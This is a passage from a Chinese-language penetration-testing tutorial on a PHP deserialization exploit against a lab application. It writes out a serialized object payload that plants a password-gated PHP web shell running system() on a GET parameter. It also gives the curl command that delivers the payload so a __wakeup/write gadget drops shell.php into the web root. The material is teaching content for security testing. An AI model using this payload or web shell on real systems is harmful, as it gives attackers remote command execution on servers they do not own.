 图 8.5：Web Shell 源代码

我们要查找的 MD5 值是`WriteLockTest1`的哈希值，通过 Linux 命令`md5sum`确认：

```
root@kali:~# echo -n WriteLockTest1 | md5sum
**5d58f5270ce02712e8a620a4cd7bc5d3 -**
root@kali:~#
```

序列化的负载将如下所示，再次缩进以提高可读性：

```
O:9:"WriteLock":2:{
  s:4:"file";
    s:**31**:"**/var/www/html/lockapp/shell.php**";
  s:8:"contents";
    s:**100**:"**<?php if (md5($_GET['password']) == '5d58f5270ce02712e8a620a4cd7bc5d3') { system($_GET['cmd']); } ?>**";
}
```

### 注意

我们已更新了`file`和`contents`的值，以及适当的字符串长度，分别为`31`和`100`，如前面的代码块所示。如果指定的长度与属性值的实际长度不匹配，攻击将失败。

为了利用反序列化漏洞并希望将 PHP Shell 写入网页根目录，我们可以使用`curl`通过`GET`请求传递我们的负载。这将迫使应用程序反序列化不可信数据，并创建一个具有危险属性值的对象。

我们可以使用`curl`命令并指定`-G`参数，这会指示它发起一个`GET`请求，指定易受攻击应用程序的 URL，同时使用`--data-urlencode`开关传递 URL 编码的`lock`值。

我们的序列化数据包含单引号，这可能会干扰通过 bash 提示符执行`curl`。我们应该小心使用反斜杠（`\'`）来转义它们，如下所示：

```
root@kali:~# curl -G http://0.0.0.0:8181/index.php --data-urlencode **$'lock=O:9:"WriteLock":2:{s:4:"file";s:31:"/var/www/html/lockapp/shell.php";s:8:"contents";s:100:"<?php if (md5($_GET[\'password\']) == \'5d58f5270ce02712e8a620a4cd7bc5d3\') { system($_GET[\'cmd\']); } ?>";}'**
Lock initiated.
```

应用程序按预期返回了`Lock initiated`消息。如果攻击成功，我们应该能够通过 Web 浏览器访问 shell，因为`__wakeup() -> write()` POP gadget 会在`/var/www/html/lockapp`目录下写入`shell.php`。

![滥用反序列化](img/B09238_08_06.jpg)

